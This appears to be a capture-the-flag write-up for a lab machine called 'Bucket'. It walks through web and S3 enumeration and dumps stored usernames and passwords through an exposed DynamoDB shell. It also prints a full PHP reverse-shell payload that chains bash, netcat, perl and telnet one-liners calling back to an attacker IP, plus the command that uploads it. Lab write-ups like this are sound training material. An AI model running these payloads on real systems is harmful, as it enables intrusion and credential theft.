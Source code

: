 # Enumeration


Enumerate Web Page
---------------------------------------------------------------

After nmap scan, we add `http://bucket.htb` to  our `/etc/hosts` file and visit the website
By viewing page source code, we see that the website is fetching images from `http://s3.bucket.htb` => we add that domain to our `hosts` file too and visit it

Running directories enumeration with gobuster for those 2 domains:
```
gobuster dir -u http://bucket.htb -w <word_list>
gobuster dir -u http://s3.bucket.htb -w <word_list>

```
The scan result show us that `http://s3.bucket.htb` have some interesting directories:
```
/shell
/shellscripts
```

Now we go to visit `http://s3.bucket.htb/shell/` (Note: `/` in the end is a must, I have struggled with this for a while until someone showed me that the `/` is actually important :( )

We can see that is a dynamoDB web-shell, with the capabilities to interact with dynamoDB javascript client in the web shell, we can perform queries to the DB and fetch valuable information

```
let params = {
    "TableName" : "users"
}
dynamodb.scan(params, (err,data) => {
    if (err) console.log(err)
    else console.log(data)
})
```
The data we got back from dynamoDB include `username` and `password` that can be valueable for further uses. Right now we don't have anywhere to use it.

Enumerate S3 Bucket
------------------------------------------------------------

We execute this command to enumerate the s3 bucket
```
docker run --rm -it -v ~/.aws:/root/.aws amazon/aws-cli configure
docker run --rm -it -v ~/.aws:/root/.aws amazon/aws-cli --endpoint-url http://s3.bucket.htb s3 ls s3://adserver/images/
```
After a quick check, list of available commands that we can use in aws cli in `s3.bucket.htb` include cp/move/delete
=> That's mean we can get our reverse shell by uploading rev shell file to s3 server.

Reverse shell payload:
```

<?php
echo 'running shell';
$ip='10.10.14.96';   #Change this
$port='8787';
$reverse_shells = array(
    '/bin/bash -i > /dev/tcp/'.$ip.'/'.$port.' 0<&1 2>&1',
    '0<&196;exec 196<>/dev/tcp/'.$ip.'/'.$port.'; /bin/sh <&196 >&196 2>&196',
    '/usr/bin/nc '.$ip.' '.$port.' -e /bin/bash',
    'nc.exe -nv '.$ip.' '.$port.' -e cmd.exe',
    "/usr/bin/perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,\"".$ip.":".$port."\");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'",
    'rm -f /tmp/p; mknod /tmp/p p && telnet '.$ip.' '.$port.' 0/tmp/p',
    'perl -e \'use Socket;$i="'.$ip.'";$p='.$port.';socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};\''
);
foreach ($reverse_shells as $reverse_shell) {
   try {echo system($reverse_shell);} catch (Exception $e) {echo $e;}
   try {shell_exec($reverse_shell);} catch (Exception $e) {echo $e;}
   try {exec($reverse_shell);} catch (Exception $e) {echo $e;}
}
system('id');
?>
```
Uploading reverse shell:
```
docker run --rm -it -v ~/.aws:/root/.aws amazon/aws-cli --endpoint-url http://s3.bucket.htb/ s3 cp myrev.php s3://adserver/myrev.php
```
